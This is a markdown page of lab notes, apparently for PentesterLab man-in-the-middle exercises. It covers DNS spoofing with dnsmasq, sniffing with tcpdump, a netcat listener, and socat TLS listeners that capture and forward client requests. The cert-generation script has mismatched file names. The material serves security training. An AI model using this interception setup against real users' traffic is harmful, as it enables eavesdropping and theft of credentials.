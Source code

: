 # Intercept

Click here for [CVE-2011-0228](CVE-2011-0228.md)  notes.

Click here for [CVE-2014-1266](CVE-2014-1266.md) notes.

### Setup

* To dump all the request the user is trying to access:

  ```bash
  tcpdump -i eth0 udp port 53
  ```

* To create your own dns server:

  ```bash
  dnsmasq -C dnsmasq.conf --no-daemon
  ```

  file dnsmasq.conf:

  ```
  addn-hosts=dnsmasq.hosts
  ```

  file dnsmasq.hosts:

  ```
  public-ip	dns-url
  ```

### Simple TCP Server

* Know that we got the client to connect to us, we just need to setup a TCP server. This can easily be done using:
  - `netcat` with `sudo nc -l -p 80` 

### TCP server with TLS support(if client doesn't verify it)

* To create a simple TCP server with TLS support we need to create a certificate. This can easily be done using OpenSSL.

  We can make a script named `create_cert.sh`

  ```bash
  FILENAME=server
  # Generate a self signed certificate:
  openssl req -new -x509 -keyout test.key -out test.crt -nodes
  # Generate the PEM file by just appending the key and certificate files:
  cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
  ```
  
* run your own server with TLS support using `socat`:

  ```bash
  $ sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=server.pem,cafile=server.crt,verify=0 -
  ```

  If you get the request from the client, it shows that the client does not perform any kind of certificate validation. 

* The command above will give us the content of the request, but you  often want to just listen to the request and forward it to the  legitimate server. This can be done using the following command:

  ```bash
  $ sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0  openssl-connect:[SERVER]:[PORT],verify=0
  ```

### TCP server with TLS support (if client verify that certificate is issued by valid hostname not self-signed as previous one)

* for this exercise, you can access a valid certificate and its private key [here](https://pentesterlab.com/exercises/mitm_III/attachments).

  ```bash
  $ sudo socat openssl-listen:443,reuseaddr,fork,cert=hackingwithpentesterlab.link.crt,cafile=GandiStandardSSLCA2.pem,key=hackingwithpentesterlab.link.key,verify=0 -
  ```

  



